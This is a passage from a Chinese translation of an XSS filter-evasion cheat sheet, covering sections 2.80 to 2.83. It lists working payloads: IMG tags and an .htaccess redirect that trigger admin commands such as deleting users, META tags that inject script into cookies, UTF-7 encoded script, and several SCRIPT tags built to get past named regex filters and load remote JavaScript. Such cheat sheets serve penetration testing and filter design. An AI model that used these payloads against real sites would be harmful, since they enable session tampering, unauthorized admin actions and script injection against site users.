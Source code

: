 当页面受密码保护并且这个密码保护同样适用于相同域的不同页面时有效，这可以用来进行删除用户，增加用户（如果访问页面的是管理员的话），将密码发送到任意地方等等。。。这是一个较少使用当时更有价值的XSS攻击向量：

> <IMG SRC="<http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode>">

**2.80.1. 嵌入命令的IMAGE II**

这更加可怕因为这不包含任何可疑标识，除了它不在你自己的域名上。这个攻击向量使用一个302或304（其他的也有效）来重定向图片到指定命令。所以一个普通的<IMG SRC="httx://badguy.com/a.jpg">对于访问图片链接的用户来说也有可能是一个攻击向量。下面是利用.htaccess（Apache）配置文件来实现攻击向量。（感谢Timo提供这部分。）：

> Redirect 302 /a.jpg <http://victimsite.com/admin.asp&deleteuser>

### 2.81.    Cookie篡改

尽管公认不太实用，但是还是可以发现一些允许使用META标签的情况下可用它来覆写cookie。另外的例子是当用户访问网站页面时，一些网站读取并显示存储在cookie中的用户名，而不是数据库中。当这两种场景结合时，你可以修改受害者的cookie以便将JavaScript注入到其页面中（你可以使用这个让用户登出或改变他们的用户状态，甚至可以让他们以你的账户登录）：

> <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

### 2.82.    UTF-7编码

如果存在XSS的页面没有提供页面编码头部，或者使用了任何设置为使用UTF-7编码的浏览器，就可以使用下列方式进行攻击（感谢Roman Ivanov提供）。这在任何不改变编码类型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因。Watchfire在Google的自定义404脚本中发现这个问题：

> <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

### 2.83.    利用HTML引号包含的XSS

这在IE中测试通过，但还得视情况而定。它是为了绕过那些允许"<SCRIPT>"但是不允许"<SCRIPT SRC..."形式的正则过滤即"/<script[^>]+src/i"：

> <SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

这是为了绕过那些允许"<SCRIPT>"但是不允许"<SCRIPTSRC..."形式的正则过滤即" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"（这很重要，因为在实际环境中出现过这种正则过滤）：

> <SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

另一个绕过此正则过滤" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的XSS：

> <SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>

又一个绕过正则过滤" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的XSS。尽管不想提及防御方法，但如果你想允许<SCRIPT>标签但不加载远程脚本，针对这种XSS只能使用状态机去防御（当然如果允许<SCRIPT>标签的话，还有其他方法绕过）：

> <SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>

最后一个绕过此正则过滤" /<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)src/i"的XSS，使用了重音符（在FireFox下无效）：

> <SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>

这是一个XSS样例，用来绕过那些不会检查引号配对，而是发现任何引号就立即结束参数字符串的正则表达式：

> <SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>

这个XSS很让人担心，因为如果不过滤所有活动内容几乎不可能防止此攻击：

> <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
